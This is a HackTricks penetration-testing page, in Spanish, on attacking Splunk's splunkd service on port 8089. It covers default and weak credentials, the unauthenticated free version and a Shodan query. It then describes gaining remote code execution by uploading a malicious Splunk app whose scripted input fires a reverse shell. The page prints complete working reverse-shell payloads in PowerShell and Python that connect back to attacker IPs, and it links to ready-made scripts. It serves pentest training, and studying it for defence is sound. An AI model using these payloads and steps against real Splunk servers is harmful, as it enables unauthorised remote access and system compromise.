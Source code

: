 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Información Básica**

* Herramienta de análisis de registros utilizada para la recopilación, análisis y visualización de datos
* Comúnmente utilizada en monitoreo de seguridad y análisis de negocios
* Puertos predeterminados:
* Servidor web: 8000
* Servicio Splunkd: 8089

### Vectores de Vulnerabilidad:

1. Explotación de la Versión Gratuita

* La versión de prueba se convierte automáticamente en la versión gratuita después de 60 días
* La versión gratuita carece de autenticación
* Riesgo de seguridad potencial si se deja sin gestionar
* Los administradores pueden pasar por alto las implicaciones de seguridad

2. Debilidades de Credenciales

* Versiones más antiguas: Credenciales predeterminadas `admin:changeme`
* Versiones más nuevas: Credenciales establecidas durante la instalación
* Potencial para el uso de contraseñas débiles (por ejemplo, `admin`, `Welcome`, `Password123`)

3. Oportunidades de Ejecución Remota de Código

* Múltiples métodos de ejecución de código:
* Aplicaciones Django del lado del servidor
* Puntos finales REST
* Entradas scriptadas
* Scripts de alerta
* Soporte multiplataforma (Windows/Linux)
* Las entradas scriptadas pueden ejecutar:
* Scripts Bash
* Scripts de PowerShell
* Scripts por lotes

Potencial Clave de Explotación:

* Almacenamiento de datos sensibles
* Falta de autenticación en la versión gratuita
* Múltiples vectores para potencial ejecución remota de código
* Posibilidad de aprovechar entradas scriptadas para comprometer el sistema

### Shodan

* `Splunk build`

## RCE

### Crear Aplicación Personalizada

Splunk ofrece un método sofisticado para la ejecución remota de código a través del despliegue de aplicaciones personalizadas, aprovechando sus capacidades de scripting multiplataforma. La técnica de explotación central gira en torno a la creación de una aplicación maliciosa que puede ejecutar shells reversos en sistemas tanto Windows como Linux.

Una aplicación personalizada puede ejecutar **scripts de Python, Batch, Bash o PowerShell**. Además, **Splunk viene con Python instalado**, por lo que incluso en sistemas **Windows** podrás ejecutar código python.

Puedes usar [**este**](https://github.com/0xjpuff/reverse_shell_splunk) ejemplo con el **`bin`** que contiene ejemplos para [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) y [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). O podrías crear el tuyo propio.

El proceso de explotación sigue una metodología consistente a través de plataformas:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
El archivo de configuración crítico `inputs.conf` habilita el script mediante:

* Estableciendo `disabled = 0`
* Configurando un intervalo de ejecución de 10 segundos
* Definiendo el tipo de fuente del script

El despliegue es sencillo:

1. Crear el paquete de aplicación maliciosa
2. Configurar un listener (Netcat/socat) en la máquina atacante
3. Subir la aplicación a través de la interfaz de Splunk
4. Activar la ejecución automática del script al subir

Ejemplo de shell reversa de Windows PowerShell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Ejemplo de shell inverso de Python en Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Escalación de Privilegios

En la siguiente página puedes encontrar una explicación de cómo este servicio puede ser abusado para escalar privilegios y obtener persistencia:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Referencias

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
